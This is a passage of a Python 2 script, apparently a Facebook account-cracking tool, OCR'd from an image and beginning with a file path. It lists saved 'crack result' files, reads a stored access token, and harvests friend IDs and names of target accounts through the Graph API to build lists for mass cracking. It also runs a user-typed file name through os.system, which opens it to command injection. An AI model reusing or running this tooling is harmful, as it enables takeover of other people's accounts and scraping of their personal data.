       for file in dirs:
        print(" [+] "+file)
      try:
        file = raw_input("\n [?] select filename : ")
        if file == "":
          menu()
        totalcp = open("CP/%s"%(file)).read().splitlines()
      except IOError:
        exit(" [!] file %s not available"%(file))
      nm_file = ("%s"%(file)).replace("-", " ")
      del_txt = nm_file.replace(".txt", "")
      print(" [#] ----------------------------------------------")
      print(" [+] crack result : %s total : %s\033[0;93m"%(del_txt, len(totalcp)))
      os.system("cat CP/%s"%(file))
      print("\033[0;97m [#] ----------------------------------------------")
      exit(" [!] don't forget to copy and save the results")
    else:
      menu()
  elif emon == "5":
    cek_opsi()
  elif emon == "6":
    setting_ua()
  elif emon == "0":
    os.system("rm -f login.txt")
    exit("\n [#] successfully deleted token")
  else:
    menu()

def publik():
  global token
  try:
    token = open("login.txt", "r").read()
  except IOError:
    exit(" [!] token expired")
  print("\n [*] fill in 'me' if you want from friends list")
  idt = raw_input(" [+] target id : ")
  try:
    for i in requests.get("https://graph.facebook.com/%s/friends?access_token=%s"%(idt, token)).json()["data"]:
      uid = i["id"]
      nama = i["name"].rsplit(" ")[0]
      id.append(uid+"<=>"+nama)
  except KeyError:
    exit(" [!] account not available or private friend list")
  print(" [+] total id  : \033[0;91m%s\033[0;97m"%(len(id))) 

def follower():
  print('Not Available ')
 
def massal():
  global token
  try:
    token = open("login.txt", "r").read()
  except IOError:
    exit(" [!] token expired")
  try:
    tanya_total = int(raw_input(" [+] number of target id : "))
  except:tanya_total=1
  print("\n [*] fill in 'me' if you want from friends list")
  for t in range(tanya_total):
    t +=1
    idt = raw_input(" [+] target id %s : "%(t))
    try:
      for i in requests.get("https://graph.facebook.com/%s/friends?access_token=%s"%(idt, token)).json()["data"]: